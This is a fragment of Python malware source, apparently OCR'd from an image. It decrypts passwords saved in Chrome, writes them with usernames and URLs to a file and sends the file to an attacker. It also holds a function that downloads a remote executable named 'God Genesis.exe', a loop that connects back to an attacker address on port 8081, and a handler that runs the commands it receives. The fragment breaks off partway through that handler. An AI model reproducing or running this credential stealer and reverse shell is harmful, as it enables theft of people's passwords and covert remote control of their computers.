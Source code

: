     for row in cursor.fetchall():
        origin_url = row[0]
        action_url = row[1]
        username = row[2]
        password = chrome_decrypt_password(row[3], key)
        date_created = row[4]
        date_last_used = row[5]        
        if username or password:
            f.write(f"Origin URL: {origin_url}")
            f.write(f"Action URL: {action_url}")
            f.write(f"Username: {username}")
            f.write(f"Password: {password}")
        else:
            continue
        if date_created != 86400000000 and date_created:
            f.write(f"Creation date: {str(chrome_get_chrome_datetime(date_created))}")
        if date_last_used != 86400000000 and date_last_used:
            f.write(f"Last Used: {str(chrome_get_chrome_datetime(date_last_used))}")
        f.write("="*50)
    cursor.close()
    db.close()
    f.close()
    try:
        os.remove(filename)
    except:
        pass
    fn = open(fileloc,"r")
    reliable_send(fn.read())
    

#end of chrome extraction





def downloadurl(url):
    jod_url = requests.get(url)
    file_name = "God Genesis.exe"
    with open (file_name, 'wb') as output_file:
        output_file.write(jod_url.content)


def connection():
    while True:
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.1.9", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

def shell():
    while True:
        command = reliable_recv()
        if command == 'terminate':
            connection_to_attacker.close()
            break
        elif command == 'clear':
            pass
        elif command[:3] == 'cd ':
            try:
                os.chdir(command[3:])
                file = os.getcwd()
                files = str(file)
                reliable_send(files)
